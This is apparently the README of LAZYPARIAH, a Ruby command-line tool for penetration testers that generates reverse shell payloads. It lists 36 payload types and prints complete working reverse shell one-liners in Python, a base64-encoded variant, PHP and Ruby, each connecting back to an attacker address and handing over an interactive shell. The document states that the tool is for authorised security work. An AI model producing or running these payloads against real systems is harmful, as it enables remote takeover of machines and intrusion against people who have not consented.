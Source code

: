 # LAZYPARIAH
A tool for generating reverse shell payloads on the fly.

## Description
LAZYPARIAH is a simple command-line tool for generating a range of reverse shell payloads on the fly. It was written in pure Ruby and has no dependencies outside of the standard library.

This tool is intended to be used only in authorised circumstances by qualified penetration testers, security researchers and red team professionals. Before downloading, installing or using this tool, please ensure that you understand the relevant laws in your jurisdiction. The author of this tool does not endorse the usage of this tool for illegal or unauthorised purposes.

## Demonstration
![Alt text](./lazypariah.svg)

## Dependencies
* Ruby >= 2.7.1 (LAZYPARIAH has not been tested on previous versions of Ruby)
* OpenJDK (Optional: Only required for `java_class` payloads.)
* GCC (Optional: Only required for `c_binary` payloads.)

## Installation
LAZYPARIAH can be installed as follows:
```
gem install lazypariah
```

## Usage
```
Usage:  lazypariah [OPTIONS] <PAYLOAD TYPE> <ATTACKER HOST> <ATTACKER PORT>
Note:   <ATTACKER HOST> may be an IPv4 address, IPv6 address or hostname.

Example:        lazypariah -u python3_b64 10.10.14.4 1555
Example:        lazypariah python2_c malicious.local 1337

Valid Payloads:
    awk
    bash_tcp
    c_binary
    c_binary_b64
    c_binary_gzip
    c_binary_gzip_b64
    java_class_b64
    java_class_binary
    java_class_gzip_b64
    nc
    nc_pipe
    perl
    perl_c
    php_fd_3
    php_fd_3_c
    php_fd_3_tags
    php_fd_4
    php_fd_4_c
    php_fd_4_tags
    php_fd_5
    php_fd_5_c
    php_fd_5_tags
    php_fd_6
    php_fd_6_c
    php_fd_6_tags
    python
    python2_b64
    python2_c
    python3_b64
    python3_c
    python_b64
    python_c
    ruby
    ruby_b64
    ruby_c
    socat

Valid Options:
    -h, --help                       Display help text and exit.
    -l, --license                    Display license information and exit.
    -u, --url                        URL-encode the payload.
    -v, --version                    Display version information and exit.
```

## Examples
The payloads listed above are more-or-less systematically named. Payloads ending with `_b64` essentially pipe base64-encoded code through to `base64 -d` and then on through to the relevant interpreter (such as `python3`, `python2` or `ruby`).

Payloads ending with `_c` are directly executed using the relevant interpreter (e.g. `python3 -c` or `ruby -e`).

Some payloads will specify a file descriptor to be used, such as `php_fd_5_tags`, which is a PHP payload that uses file descriptor 5 and is enclosed within PHP tags (`<?php` and `?>`).

Below are some examples of commands and their respective outputs.

Output of command `lazypariah -u python3_b64 10.10.14.4 1337`:
```
echo%20aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjQiLDEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOw%3D%3D%20%7C%20base64%20-d%20%7C%20python3
```
Output of command `lazypariah python2_c 10.10.14.4 1337`:
```
python2 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Output of command `lazypariah php_fd_3_tags 10.10.14.4 1337`:
```
<?php $sock=fsockopen("10.10.14.4",1337);exec("/bin/sh -i <&3 >&3 2>&3");?>
```
Output of command `lazypariah ruby 10.10.14.4 1337`:
```
require "socket";exit if fork;c=TCPSocket.new("10.10.14.4","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end
```
Below is an example of the `c_binary_gzip_b64` payload in action:
![Alt text](./c_binary_gzip_b64_demo.png)

## Author
Copyright (C) 2020 Peter Bruce Funnell

## License
This program is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with this program.  If not, see <https://www.gnu.org/licenses/>

## Support
If you found this project useful and would like to encourage me to continue making open source software, please consider making a donation via the following link:

https://www.buymeacoffee.com/peterfunnell

Donations in Bitcoin (BTC) are also very welcome. My BTC wallet address is as follows:

```
3EdoXV1w8H7y7M9ZdpjRC7GPnX4aouy18g
```
